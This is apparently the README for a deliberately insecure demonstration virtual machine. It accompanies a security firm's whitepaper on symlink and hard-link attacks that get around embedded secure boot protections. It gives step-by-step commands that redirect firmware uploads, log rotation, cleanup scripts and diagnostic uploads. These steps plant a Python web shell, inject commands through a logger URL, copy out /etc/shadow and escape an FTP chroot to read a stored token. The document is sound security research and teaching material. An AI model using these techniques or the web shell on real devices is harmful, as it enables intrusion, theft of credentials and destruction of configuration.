

Table of ContentsDescriptionExamplesSymlinks in Root Directories File Uploading/Firmware UploadingLog RedirectionLog RotationBoot/Cleanup ScriptsDiagnostic UploadsChroot Hard Link EscapeContact Us
This virtual machine demonstrates the symlink and hard link attacks as described in Anvil's Defeating Secure Boot Protections with Symlink and Hard Link Attacks whitepaper.
The virtual machine contains the following files:
The storage.img is mounted during boot at the /storage mount point:
# mount | grep storage/dev/vda on /storage type ext4 (rw,noexec,relatime)In addition, the /var/log directory is a symlink that points to /storage/log. Any service logging to /var/log automatically saves its logs to the non-volatile and non-protected partition:
xxxxxxxxxx# ls -l /var/total 0lrwxrwxrwx 1 root root 6 Jun 9 23:35 cache -> ../tmpdrwxr-xr-x 2 root root 0 Jun 28 21:58 liblrwxrwxrwx 1 root root 6 Jun 9 23:35 lock -> ../tmplrwxrwxrwx 1 root root 12 Jun 11 00:23 log -> /storage/loglrwxrwxrwx 1 root root 6 Jun 9 23:35 run -> ../runlrwxrwxrwx 1 root root 6 Jun 9 23:35 spool -> ../tmplrwxrwxrwx 1 root root 6 Jun 9 23:35 tmp -> ../tmpdrwxr-xr-x 3 www-data www-data 0 Jun 12 01:01 wwwTo simulate the insecure way many embedded devices are shipped, the virtual machine does not follow security hardening guidelines. All services in the virtual machine run as the root user, and the root filesystem in RAM is writable but not persistent which means changes disappear when the virtual machine is powered off. It is easier to demonstrate some exploit techniques with the virtual machine in this common state.
All the following examples require mounting, editing, and unmounting the storage.img disk image on the host computer and then launching the virtual machine. On an embedded system this is equivalent to physically removing the storage device (NAND, SPI flash, eMMC, SD, etc...), editing the contents, and putting the storage device back in the device.
On Linux, the standard flow of commands to perform the attacks and edit the storage.img is:
xxxxxxxxxx> sudo -s[sudo] password for user:# mount ./storage.img /media# <edit file system here># umount /media# exit> ./start-qemu.sh serial-onlySince the root file system is in RAM, any modifications disappear once the virtual machine is powered off. If the storage.img becomes too corrupted, we recommend reformatting the image using the following command and the virtual machine will recreate the directory structure:
xxxxxxxxxx> mkfs.ext4 ./storage.img mke2fs 1.45.5 (07-Jan-2020)storage.img contains a ext4 file system last mounted on /storage on Thu Jun 25 18:45:27 2020Proceed anyway? (y,N) yDiscarding device blocks: done Creating filesystem with 5120 4k blocks and 5120 inodes Allocating group tables: done Writing inode tables: done Creating journal (1024 blocks): doneAfter recreating the storage partition, it is best to boot the virtual machine once so that the boot scripts can create the directory structure.
The virtual machine is running a web server hosting the /storage/log directory as a document root. Adding a symlink to this directory on the non-protected partition can expose additional files and directories from the root partition.
The logs are hosted at /logs, the following commands will add the root directory to the root directory:
xxxxxxxxxx> sudo -s[sudo] password for user:# mount ./storage.img /media# ln -s / /media/log/root_fs# umount /media# exit> ./start-qemu.sh serial-onlyAfter the above changes, when viewing the logs you should be able to view the root directory as well.
The virtual machine is hosting a firmware update service at /cgi-bin/fw_update.cgi
The following commands will redirect the upload to overwrite the /cgi-bin/disk_usage.cgi:
xxxxxxxxxx> sudo -s[sudo] password for user:# mount ./storage.img /media# rm -f /media/fw_update/incoming.tgz# ln -s /var/www/cgi-bin/disk_usage.cgi /media/fw_update/incoming.tgz# umount /media# exit> ./start-qemu.sh serial-onlyOnce booted, a malicious script such as the following can be uploaded at /cgi-bin/fw_update.cgi
xxxxxxxxxx#!/usr/bin/env python3 import cgiimport cgitbimport osimport sys cgitb.enable() print("Content-Type: text/html")print() print("<html>")print("<head><title>CMD Shell</title></head>")print("<body>") form = cgi.FieldStorage() cmd = ""if "cmd" in form: cmd = form["cmd"].value print('<h2>Command execution</h2>')print('<form method="post" enctype="multipart/form-data">')print('<label>Command:</label>')print('<input name="cmd" value="{}"/>'.format(cmd))print('<input type="submit" value="Submit"/>')print('</form>')print('<hr>') if cmd != "": print('<pre>') sys.stdout.flush() os.system(cmd) sys.stdout.flush() print('</pre>') print('</body>')print('</html>')Now when accessing /cgi-bin/disk_usage.cgi the cgi has been replaced with the malicious script.
This example redirects logging messages from the /cgi-bin/logger.cgi script and appends to the disk_usage.cgi.
xxxxxxxxxx> sudo -s[sudo] password for user:# mount ./storage.img /media# rm -f /media/log/cgi_logger# ln -s /var/www/cgi-bin/disk_usage.cgi /media/log/cgi_logger# umount /media# exit> ./start-qemu.sh serial-onlyAfter the virtual machine has booted, trigger a log message with following:
xxxxxxxxxx# curl 'http://localhost:8888/cgi-bin/logger.cgi?;echo+"Injected:+$(id)";'The injected commands can now be executed by accessing the /cgi-bin/disk_usage.cgi.
Many embedded systems rotate logs at boot or at regular intervals. Depending on how the rotation is implemented it maybe possible to replace the log with a symlink and cause the rotation to copy a file from the root filesystem out to the external partition. This example uses a boot script to compress the /var/log/messages from the previous boot. The following commands replaces the /var/log/messages with a symlink to /etc/shadow, after reboot the compressed logs will contain /etc/shadow.
xxxxxxxxxx> sudo -s[sudo] password for user:# mount ./storage.img /media# rm -f /media/log/messages# ln -s /etc/shadow /media/log/messages# umount /media# exit> ./start-qemu.sh serial-onlyAfter the virtual machine boots, power off the virtual machine and read the rotated file for the storage disk image:
xxxxxxxxxx> sudo -s[sudo] password for user:# mount storage.img /media/# gunzip < /media/log/messages.gzroot:$5$/QYlx0cQ$HYrfDT6QvJgBfyxZCTR3hRDLJ2fmuA7586t5JnTeRE5:::::::daemon:*:::::::bin:*:::::::sys:*:::::::sync:*:::::::mail:*:::::::www-data:*:::::::operator:*:::::::nobody:*:::::::ftp:*:::::::Many boot up/cleanup scripts traverse the file system and their operations can be redirected. This example contains a boot script that deletes the contents of /storage/cache/. The following commands redirects the delete operation to delete part of the lighttpd config:
xxxxxxxxxx> sudo -s[sudo] password for user:# mount ./storage.img /media# rm -rf /media/cache# ln -s /etc/lighttpd/conf.d/sites /media/cache# umount /media# exit> ./start-qemu.sh serial-onlyNow when accessing any of the cgi-bin scripts, such as /cgi-bin/fw_update.cgi the script it self is downloaded rather than being run.
Devices frequently have features to upload logs to a backend service. This example redirects the bundling of /var/log to include /etc with the following commands:
xxxxxxxxxx> sudo -s[sudo] password for user:# mount ./storage.img /media# rm -rf /media/log/# ln -s /etc /media/log# umount /media# exit> ./start-qemu.sh serial-onlyNow when using the /cgi-bin/diagnostics.cgi cgi-bin to upload the logs, the /etc directory is bundled up.
This example uses hard links instead of symlinks. Since they cannot cross fire system boundaries, they cannot be used to attack the root file system, but can still sometimes be useful. Mainly if the system save sensitive data to the /storage partition during runtime and running a hardware interposer board is difficult.
The following commands use the debugfs command to make a hard link to a directory to escape out of the vsftp chroot environment:
xxxxxxxxxx> sudo -s[sudo] password for user:# debugfs -w storage.img debugfs 1.45.5 (07-Jan-2020)debugfs: ln /creds /log/creds_dirdebugfs: quit# exit> ./start-qemu.sh serial-onlyNow when ftping to the device the creds_dir hard link can be followed to access /storage/creds and view the dynamically saved creds:
xxxxxxxxxx> lftp 192.168.14.128:2121lftp 192.168.14.128:~> set ftp:passive-mode offlftp 192.168.14.128:~> lsdrwxr-xr-x 2 0 0 4096 Jun 29 00:04 creds_dir-rw-r--r-- 1 0 0 0 Jun 29 00:04 lighttpd-access.log-rw-r--r-- 1 0 0 216 Jun 29 00:05 lighttpd-error.log-rw-r--r-- 1 0 0 29330 Jun 29 00:06 messages-rw-r--r-- 1 0 0 6335 Jun 29 00:05 messages.gz-rw------- 1 0 0 158 Jun 29 00:06 vsftpd.loglftp 192.168.14.128:/> cd creds_dir/lftp 192.168.14.128:/creds_dir> ls-rw-r--r-- 1 0 0 19 Jun 29 00:05 creds.txtlftp 192.168.14.128:/creds_dir> cat creds.txt # Auth token, valid for only one boot! 5874909b1e28ea7940a660f9a30bf891 100 bytes transferredNote: The disabling of ftp:passive mode, this is due to using QEMU's user networking and needing to forward ports. In active mode, the ftp service will connect back to client, so we don't have to dynamically forward a port. If this is a problem change the QEMU config to use a Tap interface.
Anvil: http://anvilventures.com
Michael Milvich: michael.milvich@anvilventures.com